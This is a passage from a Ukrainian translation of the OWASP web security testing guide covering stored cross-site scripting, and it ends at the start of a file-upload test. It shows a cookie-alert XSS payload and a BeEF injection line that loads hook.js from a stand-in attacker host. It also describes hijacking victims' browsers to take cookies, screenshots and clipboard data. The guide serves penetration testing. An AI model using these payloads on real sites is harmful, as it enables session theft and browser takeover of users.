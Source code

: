 HTML-код після введення:
```html
<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"><script>alert(document.cookie)</script>
```
Введені дані зберігаються, а навантаження XSS виконується браузером під час перезавантаження сторінки. Якщо вхідні дані екрануються програмою, тестувальники повинні перевірити програму на наявність фільтрів XSS. Наприклад, якщо рядок «SCRIPT» замінено пробілом або символом NULL, це може бути потенційною ознакою фільтрації XSS. Існує багато методів, щоб уникнути вхідних фільтрів (див. розділ «[Тестування відображеного XSS](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)»). Тестувальникам наполегливо рекомендуємо звернутися до сторінок [XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html) і [Mario](https://gchq.github.io/CyberChef/#input=V2lzaGluZyB5b3UgdGhlIGJlc3QgaW4geW91ciB3ZWJzZWN1cml0eSBqb3VybmV5IQ) XSS Cheat, на яких представлено розширений список XSS-атак і обходів фільтрації. Щоб отримати докладнішу інформацію, зверніться до розділу офіційних документів та інструментів.

### Використовуйте збережений XSS за допомогою BeEF
Збережені XSS можуть бути використані розширеними фреймворками JavaScript, такими як BeEF і XSS Proxy.

Типовий сценарій експлуатації BeEF передбачає:

- Впровадження перехоплювача JavaScript, який зв’язується з фреймворком використання браузера зловмисника (BeEF)
- Очікування, поки користувач програми перегляне вразливу сторінку, де відображаються збережені введення
- Керування браузером користувача програми через консоль BeEF

Перехоплення JavaScript можна впровадити, використовуючи вразливість XSS у веб-додатку.

**Приклад:** BeEF Injection в **index2.php**:
```html
aaa@aa.com"><script src=http://attackersite/hook.js></script>
```
Коли користувач завантажує сторінку **index2.php**, браузер виконує скрипт **hook.js**. Після цього можна отримати доступ до файлів cookie, знімка екрана користувача, буфера обміну користувача та запускати складні атаки XSS.

![](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/images/RubyBeef.png)
</br>*Рисунок 4.7.2-3: Приклад ін’єкції BeEF*

Ця атака особливо ефективна на вразливих сторінках, які переглядають багато користувачів з різними привілеями.

### Завантаження файлів
Якщо веб-програма дозволяє завантажувати файли, важливо перевірити, чи можна завантажувати вміст HTML. Наприклад, якщо файли HTML або TXT дозволені, у завантажений файл можна додати корисне навантаження XSS. Тестувальник також повинен перевірити, чи дозволяє завантаження файлу встановлювати довільні типи MIME.

Розглянемо такий запит HTTP POST для завантаження файлу:
```http
POST /fileupload.aspx HTTP/1.1
[…]
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.txt"
Content-Type: text/plain

test
```
